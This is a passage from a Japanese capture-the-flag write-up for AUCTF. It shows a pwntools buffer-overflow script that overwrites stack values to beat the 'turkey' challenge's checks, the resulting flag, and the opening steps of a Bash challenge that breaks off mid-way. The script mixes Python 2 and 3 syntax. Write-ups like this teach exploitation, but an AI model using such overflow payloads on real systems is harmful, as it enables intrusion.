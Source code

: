 <br>
`0xffffffec` との比較をしているので、`0xffffffeb` か `0xffffffed` のどちらかで行けるでしょう（笑）

（`0xffffffeb` が正解でした。)


<br>
ということで、書いたコードです。

```Python
#!/usr/bin/env python
from pwn import *

if 0:
    s = process('./turkey')
else:
    s = remote('challenges.auctf.com', 30011)

payload = ''
payload += b'A' * 16
payload += p32(0x0000002a)
payload += p32(0x00000015)
payload += p32(0x00667463)
payload += p32(0xffffffeb)
payload += p32(0x00001337)

# s.sendlineafter("all I got!\n\n", payload)
print s.recvuntil("all I got!\n\n")
s.sendline(payload)

msg = s.recvall()
print(msg)
```

<br>

Flag: `auctf{I_s@id_1_w@s_fu11!}`

      

<br /><br />
<br /><br />

## [Bash]: Bash 2
- - -
### Challenge
>ssh challenges.auctf.com -p 30040 -l level2
<br /><br />
password is the flag of the previous Bash challenge

<br />
### Solution

```
$ ls -la
total 28
dr-xr-x--x 1 level2 level2 4096 Apr  3 16:00 .
drwxr-xr-x 1 root   root   4096 Apr  3 15:35 ..
-rw-r--r-- 1 level2 level2  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 level2 level2 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 level2 level2  807 Apr  4  2018 .profile
-r--r----- 1 level3 level3   22 Apr  1 21:25 flag.txt
-r-xr-x--- 1 level3 level2  110 Apr  1 21:25 random_dirs.sh


$ cat random_dirs.sh
#!/bin/bash
```